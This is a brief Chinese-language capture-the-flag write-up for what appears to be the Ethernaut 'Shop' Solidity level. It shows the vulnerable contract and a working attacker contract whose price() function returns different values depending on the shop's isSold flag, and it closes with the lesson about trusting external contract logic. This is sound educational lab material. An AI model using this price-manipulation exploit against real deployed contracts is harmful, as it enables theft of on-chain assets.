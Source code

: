 ```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

interface Buyer {
    function price() external view returns (uint256);
}

contract Shop {
    uint256 public price = 100;
    bool public isSold;

    function buy() public {
        Buyer _buyer = Buyer(msg.sender);

        if (_buyer.price() >= price && !isSold) {
            isSold = true;
            price = _buyer.price();
        }
    }
}
```



跟 elevator一样，只是要考虑isSold的值？？？

哦，对，不然第一次的if进不去。。。lol )))

那就写个interface external一下 isSold，过了if改为0即可：

注意用 0.7.0，0.8的gas管理容易崩。。。

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.7.0;

interface IShop{
    function buy() external ;
    function isSold() external view returns (bool);
}
contract Shop{
    address levelInstance;
    constructor(address _levelInstance) {
        levelInstance = _levelInstance;
    }
    function price() public view returns (uint256){
        return IShop(msg.sender).isSold() ? 0 : 100;
    }
    function pwn() public {
        IShop(levelInstance).buy();
    }
}
```



![image-20250306195623693](./Shop/images/image-20250306195623693.png)



> Contracts can manipulate data seen by other contracts in any way they want.
>
> It's unsafe to change the state based on external and untrusted contracts logic.



确实呐，web3的编程安全最大的一个点就是有多合约，外部合约的交互！这是区分传统安全的很大的一个点。。。